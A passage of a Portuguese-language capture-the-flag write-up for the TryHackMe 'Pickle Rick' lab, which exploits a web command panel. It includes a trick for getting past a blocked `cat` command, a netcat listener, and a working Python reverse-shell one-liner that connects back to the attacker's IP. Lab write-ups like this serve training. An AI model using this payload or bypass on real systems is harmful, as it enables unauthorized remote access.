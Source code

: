 ### login.php
A página `login.php` revela a seguinte interface:
![](pagina-login.webp)

### robots.txt 
O arquivo `robots.txt` contém uma string sugestiva, provavelmente a senha:
```html
THM{****************}
```
Com essas informações, fui para a tentativa de login.

## Exploração e Execução Remota
### Acesso via Painel de Comandos
Após logar, encontrei um painel com um campo para execução de comandos. Tentei listar arquivos e encontrei o **primeiro ingrediente:** 
![](painel-comando.webp)

Apesar do comando `cat` estar bloqueado, foi possível contornar usando `tac` para leitura de arquivo. 
![](comando-desabilitado.webp)

```sh
tac Sup3rS3cretPickl3Ingred.txt
THM{*** ******* ****}
```

### Shell Reversa
O campo de entrada aceita comandos do sistema, permitindo execução remota (RCE). Utilizamos esse vetor para obter uma **reverse shell**:


``` console
# kali (listener)
┌──(c3n0r4㉿kali)-[~/tryhackme/room/picklerick]
└─$ nc -lvnp 53 
listening on [any] 53 ...
```

```console
# Target (payload)
python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("10.6.47.63",53));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")'
```

Consegui uma shell reversa como `www-data`.
```console
connect to [10.6.47.63] from (UNKNOWN) [10.10.189.231] 52324
$ whoami
whoami
www-data
```
